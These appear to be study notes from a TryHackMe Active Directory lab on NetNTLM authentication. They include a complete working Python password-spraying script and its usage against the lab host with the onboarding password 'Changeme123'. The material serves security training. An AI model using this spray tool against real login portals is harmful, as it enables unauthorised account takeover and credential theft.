


# NTLM Authenticated Services

- NTLM is the suite of security protocols used to authenticate user identities in AD
- NTLM can be used for authentication by using challenge-response-based scheme called NetNTLM; used by services on a network

Services that use NetNTLM can also be exposed to the internet:
- Internally-hosted Exchange (Mail) servers that expose an Outlook Webb App login portal
- RDP service of a server being exposed to the internet
- Exposed VPN endpoints that are integrated with AD

## NetNTLM
- All authenticated material is forwarded to a Domain Controller in the form of a challenge
- If completed successfully, the application will authenticate the user
- Application is authenticating on behalf of the user and not authenticating the user directly on the application
- Prevents application from storing AD credentials, which should only be stored on a Domain Controller

## Brute-force Login Attacks
- Most AD environments have account lockout configured, won't be able to run a full brute-force attack
- We have been provided a list of usernames from a OSINT exercise
- OSINT exercise also indicated the organization's initial onboarding password which is `Changeme123`

Use a custom-developed script to perform a password spray against the web application hosted at: http://ntlmauth.za.tryhackme.com

## Python script
<pre>
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

if __name__ == "__main__":
    main(sys.argv[1:])

</pre>

Script takes our suggested password `Changeme123` and the URL we are targeting as input and attempts to authenticate to the URL with each username in the textfile.
- Monitor the HTTP response codes from the application
- Determine if the credentials pair is valid or not
- Successful `200 HTTP (OK)`
- Unauthorised `401 HTTP (Unauthorised)`

## Python Script Syntax
<pre>python ntlm_passwordspray.py -u usernames.txt -f .za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/</pre>

- `-u` : Textfile containing usernames
- `-f` : Fully qualified domain name associated with organization we are attacking
- `-p` : Password used for spraying
- `-a` : URL of application that supports Windows Authentication